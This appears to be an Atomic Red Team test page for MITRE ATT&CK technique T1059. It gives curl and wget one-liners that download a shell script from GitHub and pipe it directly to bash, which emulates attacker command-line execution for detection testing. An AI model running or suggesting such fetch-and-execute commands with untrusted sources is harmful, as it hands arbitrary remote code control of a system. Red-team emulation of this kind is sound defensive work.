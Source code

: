 # Command-Line Interface

MITRE ATT&CK Technique: [T1059](https://attack.mitre.org/wiki/Technique/T1059)

Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

    bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash"


Using Wget for equivalent functionality.

    bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash"

This will download the specified payload and set a marker file in `/tmp/art-fish.txt`.